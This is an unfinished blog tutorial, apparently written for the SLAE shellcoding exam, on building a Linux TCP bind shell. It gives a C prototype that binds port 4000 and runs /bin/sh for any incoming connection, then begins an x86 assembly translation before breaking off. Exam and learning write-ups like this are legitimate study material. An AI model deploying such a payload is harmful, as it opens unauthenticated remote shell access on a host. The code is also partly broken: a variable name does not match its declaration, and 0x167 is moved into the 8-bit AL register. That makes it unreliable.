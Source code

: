 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```



... page still under construction ...  

## Assignment 01 ##

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

## Prototype ##

To get idea how bind shell works and which syscalls are used, we can create bind shell code in C.  
After a bit of research, the simplest bind shell is following:
```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h> 
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 

  // Define socket file descriptor
  int socketfd; 
  int socketid; 
   
  // Create socket 
  socketd = socket(AF_INET, SOCK_STREAM, 6); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketd, 2); 

  // Accept incoming connection 
  socketid = accept(socketd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/sh shell 
  execve("/bin/sh", NULL, NULL); 
} 
```

Compiled and run, we can confirm that bind shell is working.
![bind shell](https://smarinovic.github.io/assets/img/slae_00001.png)


## Syscalls ##

Based on prototype code above, we can conclude that following syscalls needs to be called in order to create bind shell:

* socket
* bind
* listen
* accept
* dup2
* execve

List of all syscalls and descriptions can be found in: unistd_32.h on following location: ```/usr/include/x86_64-linux-gnu/asm/unistd_32.h```

```
#define __NR_socket 359
#define __NR_socketcall 102
#define __NR_bind 361
#define __NR_listen 363
#define __NR_accept4 364
#define __NR_dup2 63
#define __NR_execve 11
```


First we need to figure out which arguments are needed for each syscall.  
Let's start with socket call. Based on man 2 pages (```man 2 socket```) we can see the descripton of function and arguments it takes.

```
int socket(int domain, int type, int protocol);
// socket()  creates an endpoint for communication and returns a file descriptor that refers to that endpoint.  
// The file descriptor returned by a successful call will be the lowest-numbered file descriptor not currently open for the process.
```

Arguments are passed via EAX, EBX, ECX, EDX, ESI, EDI registers.  
To have a clean start, registers need to be zero-out. Easiest way to do it (and avoid having null bytes in code) is by XOR register with itself.

```
xor eax, eax    ; Clear EAX 
xor ebx, ebx    ; Clear EBX
xor ecx, ecx    ; Clear ECX
xor edx, edx    ; Clear EDX
```

After that we need to pass syscall for socket in EAX register.

```mov al, 0x167 ; 359 (0x167) is the syscall for socket ```

Next, we need to pass arguments to ```socket(AF_INET, SOCK_STREAM, 6);``` function by placing arguments in registers:

```
mov bl, 2  ; domain = 2 (AF_INET/IPv4)
mov cl, 1  ; type = 1 (SOCK_STREAM/TCP)
mov dl, 6  ; protocol = 6 (IPPROTO_TCP)
int 0x80   ; syscall
```

.... to be continued ...


```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
// When a socket is created with socket(2), it exists in a name space (address family) but has no address assigned to it.
// bind() assigns the address specified by addr to the socket referred to by the file descriptor sockfd.  
// addrlen specifies the size, in bytes, of the address structure pointed to by addr.
```

```
int listen(int sockfd, int backlog);
// listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
// The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
//  The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.  
```

```
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
// The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET). 
// It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.  
// The newly created socket is not in the listening state.  
```

```
int dup2(int oldfd, int newfd);
// The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
// execve()  executes the program referred to by pathname.  
// This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments.
// pathname must be either a binary executable, or a script starting with a line of the form:
// #!interpreter [optional-arg]
```

